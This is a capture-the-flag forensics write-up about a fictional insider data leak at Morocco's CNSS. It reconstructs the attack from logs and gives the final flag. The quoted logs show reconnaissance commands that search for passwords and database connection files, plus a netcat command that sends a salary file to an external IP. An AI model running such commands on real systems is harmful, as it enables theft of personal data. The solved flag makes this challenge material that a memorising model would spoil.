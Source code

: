 # CNSS 

**Description**

In April 2025, Morocco faced its most devastating cybersecurity breach targeting the National Social Security Fund (CNSS), leaking personal and financial data of millions of citizens and employees. Preliminary investigations suggest the breach was facilitated by an insider within CNSS who exploited weak internal controls to exfiltrate sensitive data before the attack became public.

> Your mission is to analyze the system logs and uncover the complete attack chain.
> Follow the digital forensic trail to identify the malicious insider and their methods.

**🎯 Flag Format**: `CITEFLAG{username_YYYY-MM-DD_tool_filename_IP}`


https://www.mediafire.com/file/7oy640vcf53h0md/cnss_leaks.zip/file


---

**👤 Author:** *Reo-0x*

---

## Challenge Objectives

We need to identify:
1. **Username** of the malicious insider
2. **Exact timestamp** (date) of the unauthorized data access
3. **Tool** used to exfiltrate the data
4. **Name** of the exfiltrated file
5. **Destination IP address** where the data was sent

---

## Initial Log Analysis

The investigation began with examining multiple system log files provided in the challenge. Key log files included:

- `var_log_auth.log` - Authentication and authorization events
- `secure_app.log` - Application security events
- `var_log_syslog` - General system messages
- `.bash_history` - Command history for user xtle0o0
- Apache2 access logs - Web server access records

---

## Evidence Discovery

### 1. Identifying the Malicious User

Analyzing the authentication logs (`var_log_auth.log`) revealed extensive suspicious activity from user **xtle0o0**:

```bash
Apr  8 01:15:18 cnss-server sudo: xtle0o0 : TTY=pts/2 ; PWD=/home/xtle0o0 ; USER=root ; COMMAND=/usr/bin/find /var/www -name "secure_db_connect.php"
Apr  8 01:17:22 cnss-server sudo: xtle0o0 : TTY=pts/2 ; PWD=/var/www/html/secure ; USER=root ; COMMAND=/usr/bin/cat secure_db_connect.php
Apr  8 01:20:36 cnss-server sudo[25984]: pam_unix(sshd:session): session opened for user sysadmin by (uid=0)
Apr  8 01:23:45 cnss-server sudo: xtle0o0 : TTY=pts/2 ; PWD=/var/www/html/admin ; USER=root ; COMMAND=/usr/bin/ls -la /var/db/cnss
Apr  8 01:25:08 cnss-server sudo: xtle0o0 : TTY=pts/2 ; PWD=/var/db/cnss ; USER=root ; COMMAND=/usr/bin/grep -r "password" .
Apr  8 01:26:40 cnss-server systemd[17100]: Accepted password for operator from 192.168.89.99 port 42051 ssh2
Apr  8 01:32:17 cnss-server sudo: xtle0o0 : TTY=pts/2 ; PWD=/var/db/cnss ; USER=root ; COMMAND=/usr/bin/ls -la /var/db/cnss/employees
Apr  8 01:35:22 cnss-server sudo: xtle0o0 : TTY=pts/2 ; PWD=/var/db/cnss/employees ; USER=root ; COMMAND=/usr/bin/grep -l "SALARY" *
```

The logs show **xtle0o0** performing reconnaissance activities:
- Searching for database connection files
- Accessing secure directories
- Searching for password-related files
- Specifically looking for SALARY data files

### 2. Critical Evidence from secure_app.log

The most damning evidence was found in `secure_app.log` on **April 8, 2025 at 22:25:43**:

```bash
[2025-04-08 22:25:43.890] [CRITICAL] [SECURE-APP] Suspicious process execution: /usr/bin/netcat -w3 98.76.54.32 8080 < /tmp/backup_data.tmp by xtle0o0

[2025-04-08 22:25:43.891] [ALERT] [SECURE-APP] Possible data exfiltration attempt detected: user=xtle0o0, destination=98.76.54.32:8080, file_size=17.9MB, file_hash=69a70c0e7f0d49ca167e5e0c91e7323 (SALARY.csv)

[2025-04-08 22:25:55.123] [WARN] [SECURE-APP] Network connection established to external IP 98.76.54.32 from internal system
```

### 3. Attack Timeline Analysis

The complete attack timeline:

**Early Morning Reconnaissance (01:15 - 01:35)**:
- User xtle0o0 performed extensive system reconnaissance
- Searched for database files and salary-related data
- Escalated privileges using sudo

**Evening Data Exfiltration (22:25:43)**:
- Executed netcat command to transfer data
- Sent 17.9MB file containing SALARY.csv data
- Connected to external IP 98.76.54.32 on port 8080

### 4. Key Evidence Summary

**Malicious User**: `xtle0o0`

**Timestamp**: `2025-04-08 22:25:43` (data exfiltration time)

**Tool Used**: `netcat` (network utility for data transfer)

**Exfiltrated File**: `SALARY.csv` (17.9MB of sensitive salary data)

**Destination IP**: `98.76.54.32:8080` (external command and control server)

---

## Flag Construction

Based on the evidence gathered:

- **Username**: xtle0o0
- **Timestamp**: 2025-04-08 (date of the breach)
- **Tool**: netcat
- **Filename**: SALARY.csv
- **IP**: 98.76.54.32

**Final Flag**: `CITEFLAG{xtle0o0_2025-04-08_netcat_SALARY.csv_98.76.54.32}`

